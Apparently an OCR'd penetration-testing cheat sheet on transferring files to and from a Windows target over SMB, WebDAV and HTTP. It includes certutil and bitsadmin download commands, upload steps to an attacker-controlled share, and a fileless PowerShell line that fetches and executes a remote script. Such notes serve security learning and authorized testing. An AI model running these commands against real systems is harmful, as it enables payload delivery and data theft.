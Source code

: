    ```bash
   smbserv 
   ```

   New versions of Windows block unauthenticated guest access, in this case you need to set unsername and password in SMB

   ```bash
   smbserver.py -ip $tunip -username USER -password PASS share . 
   ```

2. Download to the target

   ```cmd
   copy \\[YOUR IP]\share\[FILE]
   ```

   If you need credentials:

   ```cmd
   net use n: \\[YOUR IP]\share /user:hacker password
   copy n:\[FILE]
   ```

​	`-smb2support` is a flag if SMB1 is not allowed
3. To upload
   ```cmd
   copy [FILE] \\[IP]]\share\[FILE]
	```

### WebDAV 

Commonly enterprises don't allow the SMB protocol (TCP/445) out of  their internal network because this can open them up to potential  attacks. An alternative is to run SMB over HTTP with `WebDav`.

1. Open WebDav

   ```bash
   sudo wsgidav --host=0.0.0.0 --port=[PORT] --root=/tmp --auth=anonymous 
   ```

2. Connect to WebDav

   ```powershell
   > dir \\[IP]\DavWWWRoot
   ```

3. Upload with SMB

   ```powershell
   > copy [FILE] \\[IP]\DavWWWRoot\
   ```

### HTTP

- Open http server `httpserv()`

- Download the file from the server:

  - certutil (works on both 32 and 64)
    ```cmd
    certutil.exe -urlcache -split -f [HTTP_SERVER]/[INPUT] [OUTPUT]
    ```
  - bitsadmin
    ```cmd
    bitsadmin /transfer wcb /priority foreground [HTTP_SERVER]/[INPUT] [OUTPUT]
    ```
	- Powershell (fileless)
	  ```powershell
	  iex(iwr -useb -uri http://TUNIP:8888/FILE.ps1)
		```
		-> `Invoke-[FUNCTION]`
  - Powershell (download)